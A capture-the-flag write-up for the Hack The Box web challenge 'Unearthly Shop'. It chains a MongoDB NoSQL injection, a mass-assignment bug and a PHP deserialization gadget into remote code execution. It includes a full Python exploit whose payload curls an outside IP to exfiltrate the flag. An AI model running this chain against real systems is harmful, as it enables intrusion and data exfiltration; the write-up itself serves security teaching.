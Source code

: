 # [Web - hard] Unearthly Shop

Disclaimer: this challenge was not fully solved. The last part we needed was to include a class from outside the backend, and taken from HTB discord write-ups.

This webapp is written in PHP and uses a MongoDB database. It has 2 components:

- a frontend, that displays items in a store, and on which users can place bids
- a backend, through which an admin can login in order to view a Dashboard, and manage the Products, the Orders, and the Users

This webapp contains 2 vulnerabilities:

- listing the products is the as-is MongoDB query: it can be used with a NoSQL injection to list the products and the users, which will give the admin password (passwords are stored in clear, not using `bcrypt` for instance)

```php
    public function products($router)
    {
        $json = file_get_contents('php://input');
        $query = json_decode($json, true);
        if (!$query)
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        $products = $this->product->getProducts($query);
```

- using the admin interface, the password change function can accept more than the password change: it can be used to modify other attributes of the user, such as the Access

```php
    public function update($router)
    {
        $json = file_get_contents('php://input');
        $data = json_decode($json, true);
        if (!$data['_id'] || !$data['username'] || !$data['password'])
        {
            $router->jsonify(['message' => 'Insufficient parameters!'], 400);
        }
        if ($this->user->updateUser($data)) {
            $router->jsonify(['message' => 'User updated successfully!']);
        }

```

- the Access of an user is a serialized PHP object. It is deserialized upon instanciation of a Controller, taking values from the user Session

```php
class UserModel extends Model
{
    public function __construct()
    {
        parent::__construct();
        $this->username = $_SESSION['username'] ?? '';
        $this->email    = $_SESSION['email'] ?? '';
        $this->access   = unserialize($_SESSION['access'] ?? '');
    }
[...]
class Controller
{
    public $user;
    public $access;
    public $username;
    public function __construct($privileged = False, $required_access = [])
    {
        $this->database = Database::getDatabase();
        $this->user     = new UserModel;
        $this->product  = new ProductModel;
        $this->order    = new OrderModel;
```

Thus the path to the flag is to:

- use the NoSQLi in the product listing to get the admin password
- login as the admin
- craft a serialized PHP object that will contain an RCE, exfiltrating the flag from the filesystem. In PHP the serialization needs to use a class that is present for instanciation. This application having 2 parts (frontend + backend), and since we are invoking it from the backend, we need to rely on [this trick](https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable) to `autoload` the corresponding class (this is what we were missing). The frontend includes a vulnerable `monolog` library, exploitable from a classic [phpggc](https://github.com/ambionics/phpggc) gadget
- use that serialized object, and abuse the update password function to update the admin Access
- login and display the admin user info to instanciate the Controller, which will deserialize our payload, leading to an RCE

The final script is:

```python
import requests
import json
import subprocess

endpoint = "http://165.232.108.240:31054"

def main():
    s = requests.Session()
    # NoSQLi for admin pass
    response = s.post(endpoint + '/api/products', data = '[{"$match":{"instock":true}}, {"$unionWith": { "coll": "users" }}]')
    admin_pass = json.loads(response.text)[-1]['password']
    print("Admin password: {}".format(admin_pass))

    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    print(response.text)

    # https://www.ambionics.io/blog/vbulletin-unserializable-but-unreachable
    serial_object = 'a:2:{i:0;O:28:"www_frontend_vendor_autoload":0:{}i:1;'
    # ./phpggc Monolog/RCE6 system "curl http://180.129.100.155:4444/?c=\$(/readflag)" -a 2>/dev/null | grep O:
    serial_object += 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{S:16:"\00*\00passthruLevel";i:0;S:9:"\00*\00buffer";a:1:{S:4:"test";a:2:{i:0;S:48:"curl http://180.129.100.155:4444/?c=$(/readflag)";S:5:"level";N;}}S:10:"\00*\00handler";O:29:"Monolog\Handler\BufferHandler":7:{S:10:"\00*\00handler";N;S:13:"\00*\00bufferSize";i:-1;S:9:"\00*\00buffer";N;S:8:"\00*\00level";N;S:14:"\00*\00initialized";b:1;S:14:"\00*\00bufferLimit";i:-1;S:13:"\00*\00processors";a:2:{i:0;S:7:"current";i:1;S:6:"system";}}}'
    serial_object += '}'

    # Update admin access serial object
    # Normal access: a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}
    # to restore: use unearthly_shop; db.users.updateOne({username: "admin"},{$set: {access: 'a:4:{s:9:"Dashboard";b:1;s:7:"Product";b:1;s:5:"Order";b:1;s:4:"User";b:1;}'}});
    response = s.post(endpoint + '/admin/api/users/update', json = {"_id": 1, "username": "admin", "password": admin_pass, "access": serial_object})
    print(response.text)

    # unserialize at user creation, which is polluted at user login, and used in view
    # login with admin
    response = s.post(endpoint + '/admin/api/auth/login', data = {"username": "admin", "password": admin_pass})
    response = s.get(endpoint + '/admin/api/users/1')
    print(response.text)

main()
```

And on the HTTP listener:

```bash
pi@raspberrypi:/tmp/lol $ python -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
165.232.108.240 - - [25/Mar/2023 16:19:36] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
165.232.108.240 - - [25/Mar/2023 16:19:37] "GET /?c=HTBl00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s HTTP/1.1" 200 -
```
